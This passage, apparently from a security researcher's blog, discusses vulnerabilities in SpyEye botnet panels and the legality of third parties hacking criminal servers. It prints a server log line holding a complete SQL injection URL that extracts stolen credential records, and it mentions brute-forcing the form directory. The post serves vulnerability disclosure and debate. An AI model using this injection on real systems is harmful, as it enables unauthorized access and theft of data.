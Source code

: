 <pre class="prettyprint">63.217.168.90 - - [16/Jun/2014:04:43:00 -0500] "GET /form/frm_boa-grabber_sub.php?bot_guid=&amp;lm=3&amp;dt=%20where%201=2%20union%20select%20@a:=1%20from%20rep1%20where%20@a%20is%20null%20union%20select%20@a:=%20@a%20%2b1%20union%20select%20concat(id,char(1,3,3,7),bot_guid,char(1,3,3,7),process_name,char(1,3,3,7),hooked_func,char(1,3,3,7),url,char(1,3,3,7),func_data)%20from%20rep2_20140610%20where%20@a=3%23 HTTP/1.1" 200 508 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; .NET4.0C; .NET4.0E)"</pre>
</div>
<div style="text-align: justify;">
<br /></div>
<div style="text-align: justify;">
Although the query did not return any meaningful data to the attacker (only data collected from sandboxes), it raises some legal questions.<br />
<br /></div>
<div style="text-align: justify;">
Which company/organization has the right to attack my server?&nbsp;</div>
<div>
<ul>
<li style="text-align: justify;">police (having a warrant)</li>
<li style="text-align: justify;">military (if we are at war)</li>
<li style="text-align: justify;">spy agencies (always/never, choose your favorite answer)</li>
<li style="text-align: justify;">CERT organisations?</li>
</ul>
<div style="text-align: justify;">
<br />
But, does an AV company or security research company has the legal right to attack my server? I don't think so... The most problematic part is when they hack a server (without authorization), and sell the stolen information in the name of "intelligence service". What is it, the wild wild west?<br />
<br />
The SQLi clearly targets the content of the stolen login credentials. If this is not an AV company, but an attacker, how did they got the SpyEye dropper? If this is an AV company, why are they stealing the stolen credentials? Will they notify the internet banking owners about the stolen credentials for free? Or will they do this for money?<br />
<br />
And don't get me wrong, I don't want to protect the criminals, but this is clearly a grey area in the law. From an ethical point of view, I agree with hacking the criminal's servers. As you can see, the whole post is about disclosing vulns in these botnet panels. But from a legal point of view, this is something tricky ... I'm really interested in the opinion of others, so comments are warmly welcome.<br />
<br />
On a side note, I was interested how did the "attackers" found the SpyEye form directory? Easy, they brute-forced it, with a wordlist having ~43.000 entries.<br />
<br />
<h3>
(Useless) Cross site scripting</h3>
<div>
<br /></div>
Although parts of the SpyEye panel are vulnerable to XSS, it is unlikely that you will to find these components on the server, as these codes are part of the install process, and the installer fails to run if a valid install is found. And in this case, you also need the DB password to trigger the vuln...<br />
<br />
<div class="separator" style="clear: both; text-align: center;">
</div>
<div class="separator" style="clear: both; text-align: center;">
<a href="http://1.bp.blogspot.com/-Bi0WJLBhmWg/U6aqw91NTHI/AAAAAAAAB2M/fMwLBJypXsg/s1600/xss_1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="245" src="https://1.bp.blogspot.com/-Bi0WJLBhmWg/U6aqw91NTHI/AAAAAAAAB2M/fMwLBJypXsg/s1600/xss_1.png" width="400" /></a></div>
<br />
<div class="separator" style="clear: both; text-align: center;">
<a href="http://1.bp.blogspot.com/-mLK5d68d2pM/U6aqwzE2zwI/AAAAAAAAB2Q/TQfvIihBOMs/s1600/xss_2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="172" src="https://1.bp.blogspot.com/-mLK5d68d2pM/U6aqwzE2zwI/AAAAAAAAB2Q/TQfvIihBOMs/s1600/xss_2.png" width="400" /></a></div>
<br />
<h3>